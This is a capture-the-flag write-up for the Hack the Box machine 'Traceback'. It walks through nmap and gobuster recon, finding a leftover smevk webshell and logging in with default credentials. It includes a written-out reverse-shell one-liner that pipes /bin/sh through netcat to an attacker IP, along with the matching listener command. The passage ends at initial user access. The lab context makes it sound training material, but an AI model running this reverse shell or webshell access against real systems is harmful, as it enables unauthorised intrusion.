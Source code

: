 ```yaml
---
description: My write up for the Hack the Box machine traceback
---
```


# Traceback Writeup

### A quick overview of the box

![](.gitbook/assets/vmplayer_mbcemty93y.png)

Traceback is a medium difficulty linux box with a difficulty rating of 4.4/10 at the time of writing.

In our journey to rooting the box we discover that a previous hacker has already compromised the server and in doing so has left a backdoor webshell for anyone lucky enough to discover it. From there we gain our initial user access on the server. To get to the next user we use Luvit which is a Lua interpreter as a pivot. From there we notice that there are some scripts being run as root whenever a user logs into the system. We will abuse this to gain root access on the machine.

### Recon

To recon the box we use a tool called Nmap. To do this we run the command:

```text
nmap -sC -sV 10.10.10.181
```

But what does this do? well from looking at the man page of the tool we can see that

| Command | Explanation |
| :---: | :---: |
| -sC | equivalent to --script=default |
| -sV | Probe open ports to determine service/version info |
| 10.10.10.181 | The IP address of the box to be scanned |

From this we can see that the above command used a tool called nmap to scan a IP address to try and determine any services being run and their versions and trying any default scripts that the tool knows against them.

#### Nmap Output:

![Nmap output: ssh and and web server found](.gitbook/assets/vmplayer_2rvevcetba.png)

Based on the Apache and OpenSSH versions shown, it would seem likely that the OS being run is an Ubuntu 18.04 bionic.

### Website - Port 80

upon navigating to the webserver http:/10.10.10.181:80 we are greeted with this page.

![Website](.gitbook/assets/vmplayer_qzqlmzmctg.png)

From here it is generally a good idea to look at the webpages source code so as to give ourselves a better idea as to what is going on. Quite often we can find credentials or hints hidden away in some of the top layer of pages on a website in challenges like this.

And so when we look at the source of the page we can see a html comment just below the message left by Xh4H.

![](.gitbook/assets/vmplayer_4x8bpa2bdv.png)

At this stage we want to run a directory busting search to look for interesting and all files that might be on the server. To do this we use a tool called gobuster.

```text
gobuster dir -u http://10.10.10.181:80 -w /usr/share/wordlists/dirbuster/directory-list2.3-medium.txt
```

| Command | Explanation |
| :--- | :--- |
| gobuster | runs the tool called gobuster |
| dir | uses directory/file bruteforcing mode |
| -u | sets the target url |
| -w | sets the path to the word list to be used |

This search did not return any useful results but it was still good to run nonetheless.

While this was running I want and googled the html comment we found earlier.

![https://github.com/TheBinitGhimire/Web-Shells](.gitbook/assets/vmplayer_bnkmitcrtx.png)

Upon navigating ourselves into the GitHub repository we can see that it contains a list of common webshells. From here I created a wordlist containing all the names of the webshells listed in this repo and some others into a file called webshell.txt.

![webshell.txt output](.gitbook/assets/vmplayer_ft4vk2b3ey.png)

From here we can now rerun our gobuster scan but this time we can use our webshell wordlist to specifically search for the more popular webshells in the hope that we find the webshell left behind by Xh4H.

```text
gobuster dir -u http://10.10.10.181:80 -w /root/htb/traceback/webshell.txt
```

Quite quickly gobuster finds us a hit.

![gobuster search results](.gitbook/assets/vmplayer_53evvfc0tf.png)

it would seem that the shell left for us to find was a smevk webshell.

### Getting a shell as Webadmin

visiting the path provided \(http://10.10.10.181:80/smevk.php\) gets us a login screen.

![smevk.php webshell login page](.gitbook/assets/vmplayer_d8g19u4dmg.png)

Generally the first thing to do when having found a login portal is to try default login credentials. And upon looking at the source code for the smevk webshell github we found are default credentials to log in with. \([https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)\)

![default smevk login creds ](.gitbook/assets/vmplayer_0mwwpxanel.png)

And so using admin:admin to log into the web shell we are then greeted with a rather complicated looking webshell to server interface.

![](.gitbook/assets/vmplayer_1bt8dlamvv.png)

Now upon closer inspection this page tells us a LOT about the sever. For example it tells us that we are currently interacting with the server as webadmin. What software the server is running \(Apache 2.4.29\) as well as what software is installed and accessible by us. Those being php, perl, tar, gzip, bzip2, nc, and wget. 

From here there are several ways to gain shell access. But I went for a relatively simple reverse bash shell. To do this I started a netcat listener on my kali using the command:

```text
nc -lvnp 4445
```

| Command | Explanation |
| :--- | :--- |
| nc | runs the netcat tool |
| -l | listen mode, for inbound connections |
| -v | verbose, this means that it will display more information about incoming connections |
| -n | numeric-only IP addresses can connect, no DNS |
| -p | local port number to listen on |
| 4445 | the port number to listen on |

To connect to our netcat listener on our machine we create and execute the following payload through the payload interface

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4445 > /tmp/f
```

You can find the same code used here and many more useful short code snippets for gaining reverse shell here: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

All that needs changing in the ip address and port to match our own on the HTB network and the port set in the netcat port above.

![](.gitbook/assets/vmplayer_u8a5nuwhhg.png)

And we are in. We are webadmin on the server. From here we need to escalate our privileges until we become root.



